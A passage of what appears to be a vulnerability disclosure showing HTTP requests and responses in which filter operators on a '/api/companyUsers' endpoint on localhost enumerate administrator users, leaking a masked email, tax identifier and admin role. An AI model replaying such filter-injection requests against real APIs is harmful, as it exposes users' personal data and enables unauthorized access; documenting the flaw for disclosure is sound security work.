 ### Response

```http
HTTP/1.1 200 
Date: Sat, 22 Mar 2025 19:13:08 GMT
Content-Type: application/vnd.api+json;charset=UTF-8
Content-Length: 11
Connection: keep-alive
Vary: Origin
Vary: Access-Control-Request-Method
Vary: Access-Control-Request-Headers
Access-Control-Allow-Origin: *

{
    "data": []
}
```

Using certain operators we could enumerate administrator users:

### Request

```http
GET /api/companyUsers?include=role&filter[companyUsers]=user.id=='94****************************' HTTP/1.1
Host: localhost:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: application/vnd.api+json
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/vnd.api+json
Authorization: Bearer eyJh.....
Origin: https://localhost:3000
Connection: keep-alive
Referer: https://localhost:3000/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-site
```

### Response

```http
HTTP/1.1 200 
Date: Sat, 22 Mar 2025 19:13:45 GMT
Content-Type: application/vnd.api+json;charset=UTF-8
Content-Length: 361
Connection: keep-alive
Vary: Origin
Vary: Access-Control-Request-Method
Vary: Access-Control-Request-Headers
Access-Control-Allow-Origin: *

{
    "data": [{
        "type": "CompanyUserGetResponseDTO",
        "attributes": {
            "companyId": "FA**************",
            "companyTaxIdentifier": "B999*******",
            "bizName": "company sl",
            "email": "jose*******@domain.local",
            "userRole": {
                "userRoleId": 1,
                "userRoleKey": "general.roles.admin"
            },
```